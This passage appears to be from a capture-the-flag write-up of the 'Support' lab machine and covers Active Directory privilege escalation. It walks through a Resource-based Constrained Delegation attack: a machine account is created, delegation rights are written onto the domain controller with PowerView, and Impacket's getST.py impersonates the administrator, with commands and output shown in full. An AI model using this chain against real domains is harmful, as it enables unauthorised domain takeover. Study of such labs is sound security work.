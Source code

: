 Then, we create a new computer object named "test" (note that any Admin User without any other special privilege can create up until 10 Computer objects (MachineAccountQuota) and set them a SPN).

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount test -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = test$
Verbose: [+] Distinguished Name = CN=test,CN=Computers,DC=support,DC=htb
[+] Machine account test added
```

We can check if computer object created with PowerView:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer test
```

Our next step is to configure the Resource-based Constrained Delegation with PowerView. With last command we check if that worked.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $targetComputer = "DC.SUPPORT.HTB"
*Evil-WinRM* PS C:\Users\support\Documents> $ComputerSid = Get-DomainComputer test -Properties objectsid | Select -Expand objectsid
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

Our last step is to get the ticket. We are using getST.py tool from impacket package here. It will request the ticket and save it as ccache, with -impersonate switch it requests the ticket on behalf other user (it will use S4U2Self/S4U2Proxy to request the ticket.). Then, we have to export a special variable "KRB5CCNAME" to specify the file with the ticket.

```zsh
$ getST.py support.htb/test -dc-ip 10.10.11.174 -impersonate administrator -spn  http/dc.support.htb

Impacket v0.10.1.dev1+20220513.140233.fb1e50c1 - Copyright 2022 SecureAuth Corporation

Password:
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
                                                                                                                              
$ export KRB5CCNAME=administrator.ccache
```
